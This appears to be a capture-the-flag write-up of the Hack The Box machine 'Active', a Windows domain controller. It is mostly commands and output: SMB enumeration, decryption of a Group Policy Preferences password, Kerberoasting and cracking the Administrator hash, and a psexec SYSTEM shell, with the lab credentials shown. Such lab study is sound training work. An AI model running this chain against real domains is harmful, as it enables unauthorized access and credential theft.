


# 10.10.10.100 (active)

Tags: #active-directory #windows #sensitive-files #gpp-password #kerberoast

## scan

### nmap

```sh
sudo rustscan -a active -- -T4 -sV -sC -oA tcp-all
```

```
Nmap scan report for active (10.10.10.100)
Host is up, received echo-reply ttl 127 (0.066s latency).
Scanned at 2023-07-08 22:50:55 EDT for 73s

PORT      STATE SERVICE       REASON          VERSION
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2023-07-09 02:51:02Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5722/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49152/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49165/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49168/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49174/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 40109/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 22296/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 38631/udp): CLEAN (Timeout)
|   Check 4 (port 44780/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 0s
| smb2-time:
|   date: 2023-07-09T02:52:00
|_  start_date: 2023-07-09T02:49:18
| smb2-security-mode:
|   2:1:0:
|_    Message signing enabled and required
```

### smb

```sh
# get OS, hostname, and domain info, as well as signing (for relay attacks)
# also check null session
crackmapexec smb active -u '' -p ''
SMB         active          445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         active          445    DC               [+] active.htb\:

# check guest account
crackmapexec smb active -u 'guest' -p ''
# disabled

# list shares
smbmap -H 10.10.10.100 -u '' -p ''
[+] IP: 10.10.10.100:445	Name: active
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	NO ACCESS	Remote IPC
	NETLOGON                                          	NO ACCESS	Logon server share
	Replication                                       	READ ONLY	
	SYSVOL                                            	NO ACCESS	Logon server share
	Users                                             	NO ACCESS	


# deeper scan (can add -u guest)
enum4linux -aMld active | tee enum4linux.txt
# appears to need credentials to see anything

# list users
crackmapexec smb active -u '' -p '' --users
# error
```

### ldap

```sh
# list users with admin rights
crackmapexec ldap active -u '' -p '' --admin-count
# error

# look for user passwords within descriptions
crackmapexec ldap active -u '' -p '' -M get-desc-users
# error
```


## access

Checking out the SMB share:

```sh
smbclient //active/Replication -W ACTIVE -U '' -N
smb: \> ls
  active.htb                          D        0  Sat Jul 21 06:37:44 2018

smb: \> cd active.htb
smb: \active.htb\> ls
  DfsrPrivate                       DHS        0  Sat Jul 21 06:37:44 2018
  Policies                            D        0  Sat Jul 21 06:37:44 2018
  scripts                             D        0  Wed Jul 18 14:48:57 2018
```

It looks like there's probably a lot of files to go through. I'll do a recursive GET to grab everything:

```sh
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
```

That drops a copy of the `active.htb` folder in my directory.

```sh
❯ tree active.htb
active.htb
├── DfsrPrivate
│   ├── ConflictAndDeleted
│   ├── Deleted
│   └── Installing
├── Policies
│   ├── {31B2F340-016D-11D2-945F-00C04FB984F9}
│   │   ├── GPT.INI
│   │   ├── Group Policy
│   │   │   └── GPE.INI
│   │   ├── MACHINE
│   │   │   ├── Microsoft
│   │   │   │   └── Windows NT
│   │   │   │       └── SecEdit
│   │   │   │           └── GptTmpl.inf
│   │   │   ├── Preferences
│   │   │   │   └── Groups
│   │   │   │       └── Groups.xml
│   │   │   └── Registry.pol
│   │   └── USER
│   └── {6AC1786C-016F-11D2-945F-00C04fB984F9}
│       ├── GPT.INI
│       ├── MACHINE
│       │   └── Microsoft
│       │       └── Windows NT
│       │           └── SecEdit
│       │               └── GptTmpl.inf
│       └── USER
└── scripts

22 directories, 7 files
```

It looks like there might be some Group Policy Preferences (GPP) files in there (Groups.xml)? Maybe we can get a GPP password?

```sh
# search for GPP
❯ grep -ri pass
Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml:<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>

# decrypt GPP
❯ gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
GPPstillStandingStrong2k18
```

Looks like we have #credentials!
- `active.htb\SVC_TGS:GPPstillStandingStrong2k18`

What can we use the creds for?

```sh
❯ cme ldap active -u svc_tgs -p GPPstillStandingStrong2k18
# error

# winrm also failed

# smb works.
# list users
❯ cme smb active -u svc_tgs -p GPPstillStandingStrong2k18 --users
SMB         active          445    DC               active.htb\SVC_TGS                        badpwdcount: 0 desc:
SMB         active          445    DC               active.htb\krbtgt                         badpwdcount: 0 desc: Key Distribution Center Service Account
SMB         active          445    DC               active.htb\Guest                          badpwdcount: 0 desc: Built-in account for guest access to the computer/domain
SMB         active          445    DC               active.htb\Administrator                  badpwdcount: 0 desc: Built-in account for administering the computer/domain
# ---- snip ----


# list shares
❯ cme smb active -u svc_tgs -p GPPstillStandingStrong2k18 --shares
SMB         active          445    DC               [+] Enumerated shares
SMB         active          445    DC               Share           Permissions     Remark
SMB         active          445    DC               -----           -----------     ------
SMB         active          445    DC               ADMIN$                          Remote Admin
SMB         active          445    DC               C$                              Default share
SMB         active          445    DC               IPC$                            Remote IPC
SMB         active          445    DC               NETLOGON        READ            Logon server share
SMB         active          445    DC               Replication     READ
SMB         active          445    DC               SYSVOL          READ            Logon server share
SMB         active          445    DC               Users           READ
```

Looks like no other users besides standard, but we have access to another shared folder.

```sh
# interact with shared folder
❯ smbclient //active/Users -U 'active.htb/svc_tgs%GPPstillStandingStrong2k18'
smb: \> ls
  .                                  DR        0  Sat Jul 21 10:39:20 2018
  ..                                 DR        0  Sat Jul 21 10:39:20 2018
  Administrator                       D        0  Mon Jul 16 06:14:21 2018
  All Users                       DHSrn        0  Tue Jul 14 01:06:44 2009
  Default                           DHR        0  Tue Jul 14 02:38:21 2009
  Default User                    DHSrn        0  Tue Jul 14 01:06:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 00:57:55 2009
  Public                             DR        0  Tue Jul 14 00:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 11:16:32 2018

		5217023 blocks of size 4096. 284679 blocks available
smb: \> prompt off
smb: \> recurse on
smb: \> mget *
```

Recursively grabbed all the files. Looking through them, there is only a `user.txt` file in the `svc_tgs` directory. In the Default directory there are more files including some NTUSER.dat files. Googling those says it has user profile settings. Maybe there are credentials in there?

```sh
❯ grep -ria pass
# NTUSER.dat matches, but it's not passwords

❯ grep -ria secret
❯ grep -ria pwd
❯ grep -ria cred
# no matches
```

Going to take a look at what else I can enumerate with SMB:

```sh
❯ cme smb active -u svc_tgs -p GPPstillStandingStrong2k18 --pass-pol
SMB         active          445    DC               [+] Dumping password info for domain: ACTIVE
SMB         active          445    DC               Minimum password length: 7
SMB         active          445    DC               Password history length: 24
SMB         active          445    DC               Maximum password age: 41 days 23 hours 53 minutes
SMB         active          445    DC
SMB         active          445    DC               Password Complexity Flags: 000001
SMB         active          445    DC               	Domain Refuse Password Change: 0
SMB         active          445    DC               	Domain Password Store Cleartext: 0
SMB         active          445    DC               	Domain Password Lockout Admins: 0
SMB         active          445    DC               	Domain Password No Clear Change: 0
SMB         active          445    DC               	Domain Password No Anon Change: 0
SMB         active          445    DC               	Domain Password Complex: 1
SMB         active          445    DC
SMB         active          445    DC               Minimum password age: 1 day 4 minutes
SMB         active          445    DC               Reset Account Lockout Counter: 30 minutes
SMB         active          445    DC               Locked Account Duration: 30 minutes
SMB         active          445    DC               Account Lockout Threshold: None
SMB         active          445    DC               Forced Log off Time: Not Set
```

Got stuck, looked at writeup, and it used impacket to look for kerberoastable accounts. I didn't think to try that because `crackmapexec` didn't work with LDAP, which I thought was required for this attack. Not sure how one works and the other doesn't.

```sh
❯ impacket-GetUserSPNs -request -outputfile kerberoast.hash 'active.htb/svc_tgs:GPPstillStandingStrong2k18'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2023-07-08 22:50:28.338960
```

Nice! The administrator has an SPN configured for CIFS, and he's kerberoastable! Let's crack it.

```sh
❯ john --wordlist=/usr/share/wordlists/rockyou.txt kerberoast.hash
Ticketmaster1968 (?)
```

Now we have admin #credentials!
- `Administrator:Ticketmaster1968`

```sh
❯ impacket-psexec 'Administrator:Ticketmaster1968@active'
```

And that get's us a SYSTEM shell!

## proof

### user.txt

```powershell
ipconfig
type C:\Users\svc_tgs\Desktop\user.txt
```

Screenshot of `user.txt`



### root.txt

```powershell
ipconfig
type C:\Users\Administrator\Desktop\root.txt
```

Screenshot of `root.txt`:


